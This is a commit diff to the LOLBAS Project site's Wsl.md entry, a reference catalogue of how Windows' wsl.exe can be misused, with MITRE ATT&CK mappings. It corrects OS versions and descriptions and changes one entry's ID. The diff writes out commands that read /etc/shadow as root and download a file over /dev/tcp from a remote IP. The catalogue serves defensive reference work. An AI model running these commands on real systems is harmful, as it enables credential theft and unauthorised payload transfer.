

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/OtherMSBinaries/Wsl.md, in a window 1280 px wide and 1400 px high, scrolled down 1071 px. Shown: the whole window at 98% size, without its empty margins (191-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 2288 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Applying update LOLBAS-Project/LOLBAS@03b527b10539dacc793624210cbc2272f135b4ea

```diff
--- a/_lolbas/OtherMSBinaries/Wsl.md
+++ b/_lolbas/OtherMSBinaries/Wsl.md
@@ -10,35 +10,28 @@ Commands:
     Category: Execute
     Privileges: User
     MitreID: T1202
-    OperatingSystem: Windows 10, Windows 19 Server
+    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
   - Command: wsl.exe -u root -e cat /etc/shadow
     Description: Cats /etc/shadow file as root
     Usecase: Performs execution of arbitrary Linux commands as root without need for password.
     Category: Execute
     Privileges: User
     MitreID: T1202
-    OperatingSystem: Windows 10, Windows 19 Server
-  - Command: wsl.exe --exec bash -c 'cat file'
-    Description: Cats /etc/shadow file as root
+    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
+  - Command: wsl.exe --exec bash -c "<command>"
+    Description: Executes Linux command (for example via bash) as the default user (unless stated otherwise using `-u <username>`) on the default WSL distro (unless stated otherwise using `-d <distro name>`)
     Usecase: Performs execution of arbitrary Linux commands.
     Category: Execute
     Privileges: User
     MitreID: T1202
-    OperatingSystem: Windows 10, Windows 19 Server
-  - Command: wsl.exe --system calc.exe
-    Description: Execute the command as root
-    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
-    Category: Execute
-    Privileges: User
-    MitreID: T1202
-    OperatingSystem: Windows 11
+    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
   - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
     Description: Downloads file from 192.168.1.10
     Usecase: Download file
     Category: Download
     Privileges: User
-    MitreID: T1202
-    OperatingSystem: Windows 10, Windows 19 Server
+    MitreID: T1105
+    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
 Full_Path:
   - Path: C:\Windows\System32\wsl.exe
 Code_Sample:
```
Also changed, not shown: other parts of _lolbas/OtherMSBinaries/Wsl.md (+1 -0 lines).
